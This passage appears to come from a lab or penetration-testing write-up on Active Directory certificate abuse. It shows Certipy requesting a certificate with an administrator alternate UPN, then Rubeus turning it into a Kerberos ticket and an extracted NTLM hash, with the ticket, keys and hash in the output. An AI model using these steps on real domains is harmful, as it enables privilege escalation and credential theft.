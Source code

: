 ```bash
$ certipy req -hashes "00000000000000000000000000000000:7a0f1f2a2b2a749312b97777b61cd6a5" 'CONTI.RU/Дарья@10.0.20.11' -ca 'CONTI-DC1-CA' -template 'UserAfterLeak' -alt 'АДМИНИСТРАТОР@CONTI.RU'
Certipy v2.0.9 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 21
[*] Got certificate with UPN 'АДМИНИСТРАТОР@CONTI.RU'
[*] Saved certificate and private key to 'администратор.pfx'
```

Fire Rubeus to get the user NTLM hash:
```
PS C:\Users\user\Downloads> ./Rubeus.exe asktgt /user:????????????? /certificate:?????????????.pfx /domain:conti.ru /dc:10.0.20.11 /createnetonly:C:\Windows\System32\cmd.exe  /getcredentials
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/
  v2.0.2
[*] Action: Ask TGT
[*] Showing process : False
[*] Username        : 8C6NPBIX
[*] Domain          : T78KN4RS
[*] Password        : KTK21ESA
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 5128
[+] LUID            : 0x343283
[*] Using PKINIT with etype rc4_hmac and subject: CN=?????
[*] Building AS-REQ (w/ PKINIT preauth) for: 'conti.ru\?????????????'
[*] Target LUID : 3420803
[*] Using domain controller: 10.0.20.11:88
[+] TGT request successful!
[*] base64(ticket.kirbi):
      doIGTjCCBkqgAwIBBaEDAgEWooIFXTCCBVlhggVVMIIFUaADAgEFoQobCENPTlRJLlJVoh0wG6ADAgEC
      oRQwEhsGa3JidGd0Gwhjb250aS5ydaOCBR0wggUZoAMCARKhAwIBAqKCBQsEggUHRzsczbSM/Q4KLi0/
      3EGc3dTPdCJkND8ThMqGyvrQ9qQTLVNcCMqvs+hqIwxkrR7piDwJYHknzF25WtLWdcpErbsLOzze1lKK
      [...]
      LfNiidKACxOqykFrOkoURKEKGwhDT05USS5SVaInMCWgAwIBAaEeMBwbGtCQ0JTQnNCY0J3QmNCh0KLQ
      oNCQ0KLQntCgowcDBQBA4QAApREYDzIwMjIwNDAyMDIwNjQ4WqYRGA8yMDIyMDQwMjEyMDY0OFqnERgP
      MjAyMjA0MDkwMjA2NDhaqAobCENPTlRJLlJVqR0wG6ADAgECoRQwEhsGa3JidGd0Gwhjb250aS5ydQ==
[*] Target LUID: 0x343283
[+] Ticket successfully imported!
  ServiceName              :  krbtgt/conti.ru
  ServiceRealm             :  CONTI.RU
  UserName                 :  ?????????????
  UserRealm                :  CONTI.RU
  StartTime                :  02/04/2022 02:06:48
  EndTime                  :  02/04/2022 12:06:48
  RenewTill                :  09/04/2022 02:06:48
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  LfNiidKACxOqykFrOkoURA==
  ASREP (key)              :  25975C2EA613F124361E4B6BD72D644B
[*] Getting credentials using U2U
  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : C9876588D1B9FBACAA9A6F8D5642BFA8
```